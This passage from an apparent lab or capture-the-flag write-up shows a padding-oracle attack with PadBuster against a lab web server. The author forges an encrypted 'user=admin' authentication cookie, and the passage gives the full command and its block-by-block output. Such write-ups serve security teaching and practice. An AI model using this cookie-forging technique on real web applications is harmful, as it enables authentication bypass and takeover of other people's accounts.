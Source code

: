 It takes several minutes, but it gets the full decrypted cookie. I’ll note that my guess from [above](#tech-stack) was correct, the cookie is of the form “user=[username]”.

Knowing what the underlying plaintext looks like, now I can run it again with `-plain user=admin` to get back a valid cookie with that plaintext:

```

oxdf@hacky$ padbuster http://10.10.11.119/ k8MxxWHb3SFbTx%2BG7H6VaMfc4lKS6TUU 8 -cookie auth=k8MxxWHb3SFbTx%2BG7H6VaMfc4lKS6TUU -plaintext user=admin
+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 302
[+] Location: home/index.php
[+] Content Length: 13389

INFO: Starting PadBuster Encrypt Mode
[+] Number of Blocks: 2

INFO: No error string was provided...starting response analysis
*** Response Analysis Complete ***

The following response signatures were returned:
-------------------------------------------------------
ID#     Freq    Status  Length  Location
-------------------------------------------------------
1       1       200     13389   N/A
2 **    255     302     0       ../logout.php?err=1
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (196/256) [Byte 8]
[+] Success: (148/256) [Byte 7]
[+] Success: (92/256) [Byte 6]
[+] Success: (41/256) [Byte 5]
[+] Success: (218/256) [Byte 4]
[+] Success: (136/256) [Byte 3]
[+] Success: (150/256) [Byte 2]
[+] Success: (190/256) [Byte 1]

Block 2 Results:
[+] New Cipher Text (HEX): 23037825d5a1683b
[+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d

[+] Success: (1/256) [Byte 8]
[+] Success: (36/256) [Byte 7]
[+] Success: (180/256) [Byte 6]
[+] Success: (17/256) [Byte 5]
[+] Success: (146/256) [Byte 4]
[+] Success: (50/256) [Byte 3]
[+] Success: (132/256) [Byte 2]
[+] Success: (135/256) [Byte 1]

Block 1 Results:
[+] New Cipher Text (HEX): 0408ad19d62eba93
[+] Intermediate Bytes (HEX): 717bc86beb4fdefe
```
